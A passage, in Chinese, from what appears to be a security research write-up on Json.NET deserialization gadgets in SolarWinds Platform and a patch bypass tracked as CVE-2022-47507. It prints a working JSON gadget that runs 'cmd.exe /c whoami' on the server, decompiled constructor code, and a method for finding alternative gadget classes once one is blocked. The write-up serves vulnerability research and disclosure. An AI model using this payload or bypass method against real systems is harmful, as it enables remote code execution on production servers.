 -   在产品代码库中实现。
-   允许在反序列化期间达到危险行为。在这里，通过生成新进程实现远程代码执行。

`WorkerControllerWCFProxy`类的示例 `Json.NET` 小工具，将执行“cmd.exe /c whoami > C:\\poc.txt”命令：

```bash
{ 
    "$type": "SolarWinds.JobEngine.Engine.WorkerControllerWCFProxy,  
SolarWinds.JobEngine, Version=2022.4.0.0, Culture=neutral, PublicKeyToken=null", 
    "workerConfiguration": { 
        "$type": "SolarWinds.JobEngine.WorkerConfiguration, SolarWinds.JobEngine,  
Version=2022.4.0.0, Culture=neutral, PublicKeyToken=null", 
         "WorkerType": 1, 
        "CommandLine":  
"..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\Windows\\System32\\cmd.exe", 
         "CommandArguments": "/c whoami > C:\\poc.txt & " 
    }, 
    "operationMode": 0, 
    "workerProcessLabel": "whatever" 
} 
```

代码段 26 WorkerControllerWCFProxy gadget

#### 1.8 SolarWinds Platform – 第 3 个绕过 - CVE-2022-47507

当我们找到一个允许滥用反序列化漏洞的自定义小工具并报告它时，它很快就会被阻止。

如果已经有了一个小工具，有两件事情可以迅速尝试：

-   可以检查是否有一个类，它继承自小工具类，会发现通过具有不同名称的类可以轻松达到相同的危险行为。这个类可能不会被补丁阻止。
-   可以检查在小工具中使用的类是否在任何不同的类中使用。

我没有找到继承 `WorkerControllerWCFProxy` 的类，但我找到了 `SolarWinds.JobEngine.Engine.WorkerProcessWCFProxy`，它内部调用 `WorkerControllerWCFProxy` 构造函数。

这个类只实现了一个公共构造函数：

```bash
public WorkerProcessWCFProxy(int maxConcurrentJobs, string assemblyName, 
WorkerConfiguration workerConfiguration, ServiceOperationMode operationMode) //  
[1] 
{
    this.maxConcurrentJobs = maxConcurrentJobs; 
    this.assemblyName = assemblyName; 
    this.operationMode = operationMode; 
    this.workerConfiguration = workerConfiguration; 
    try 
    { 
         this.CreateWorkerController(); // [2] 
        this.LaunchWorker(); 
         this.Connect(); 
    } 
    catch (Exception) 
     { 
        this.Terminate(); 
        throw; 
    } 
}
```
